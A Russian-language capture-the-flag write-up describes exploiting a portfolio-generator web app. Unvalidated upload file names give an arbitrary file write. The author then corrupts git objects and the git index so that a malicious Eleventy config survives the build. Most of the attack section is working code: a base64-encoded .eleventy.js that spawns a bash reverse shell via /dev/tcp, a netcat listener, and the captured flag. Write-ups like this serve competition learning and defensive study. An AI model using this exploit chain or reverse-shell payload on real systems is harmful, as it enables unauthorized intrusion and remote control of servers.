


# Охотники за ловушками

В качестве функционала сайта выступает генератор портфолио. В исходном коде видим, что сайт принимает в параметрах 2 файла:

1. **site.json**: JSON набор данных, указанных в форме
2. **style.css**: дополнительные стили к нашему портфолио



На самом же деле, сайт может обрабатывать N-ое количество файлов:

```js
for (el of req.body.config) {
    try {
        fs.writeFileSync(path.join("/app/build/", randDir, "parameters", el.name), Buffer.from(el.content, 'base64'));
    }
    catch (err) {
        fs.rmdirSync(`/app/build/${randDir}`, { recursive: true, force: true });
        fs.rmdirSync(`/app/portfolio/${randDir}/`, { recursive: true, force: true });
        return res.json({ "response": err.toString() });
    }
}
```

Также не трудно заметить, что их названия никак не валидируются, а значит у нас есть **Arbitrary Write**. <br>
После загрузки всех файлов и некоторых приготовлений происходит генерация портфолио с помощью *Eleventy*:

```bash
mkdir _data && ln -s $paramDir/site.json $buildDir/blog/_data/site.json && cp $paramDir/style.css $buildDir/blog/static/style.css
eleventy --formats=html --output=$portfolioDir
```

Теперь попробуем получить RCE. Основным вектором является файл конфигурации *.eleventy.js*. Контролируя его содержимое мы сможем выполнить JS код, однако есть некоторые трудности:

1. `git checkout -f 2>&1`: перезапишет все в корне репозитория (в том числе *.eleventy.js*)

**Решение:**
Так как репозиторий копируется до загрузки файлов пользователя, мы можем повредить объект коммита, чтобы команда не выполнилась: в нашем случае `.git/objects/a5/a0214ef71569a697cb4e63d99ca6b840b2f67d`

2. `git clean -ffdx 2>&1`: если конфиг не будет создан по каким-либо причинам, он будет удален

**Решение:**
Удалим конфиг из индекса (т.е. перезапишем `.git/index`)


Суммируя все, подготовим payload:

```bash
$ git restore --staged .eleventy.js
$ base64 -w0 < .git/index
RElSQwAAAAIAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACBpAAAAAAAAAAAAAAAAGSD8fBxH01a7Vs1zqyy3sylSFEcAAwuZWxldmVudHkuanMAAAAAAABQYf+bDe4iBtaxxXO8t0B94lcbjw==
$ base64 -w0 <<EOF
module.exports = function(eleventyConfig) {
  require('child_process').exec('bash -c "bash -i >& /dev/tcp/ip/port 0>&1"');
  return {};
}
EOF

bW9kdWxlLmV4cG9ydHMgPSBmdW5jdGlvbihlbGV2ZW50eUNvbmZpZykgewogIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdiYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwL2lwL3BvcnQgMD4mMSInKTsKICByZXR1cm4ge307Cn0K
```

Ставим netcat и отправляем запрос:



Получаем шелл ... и флаг

```bash
nc -nlvp port

$ cd /app/portfolio/a03948cd8f97124c00c4cad71c2ceaf7ba1e0a9d
$ cat index.html | grep flag
          👻 <a href="/ghost_catcher/e0c96da95479e8e54697633d1f4439c11c65eff8/flag_4713a9c72d9eec3904cc9d92176d1e489515c439.txt">Ghost trap</a> <br />
              href="/ghost_catcher/e0c96da95479e8e54697633d1f4439c11c65eff8/flag_4713a9c72d9eec3904cc9d92176d1e489515c439.txt">Project</a></div>

$ curl https://its-catcher-lnxfkuu9.spbctf.ru/ghost_catcher/e0c96da95479e8e54697633d1f4439c11c65eff8/flag_4713a9c72d9eec3904cc9d92176d1e489515c439.txt
its{1_aInT_fR41D_0F_NO_GhoST_eSPEciaLlY_NoW_WItH_caTCh3R}
```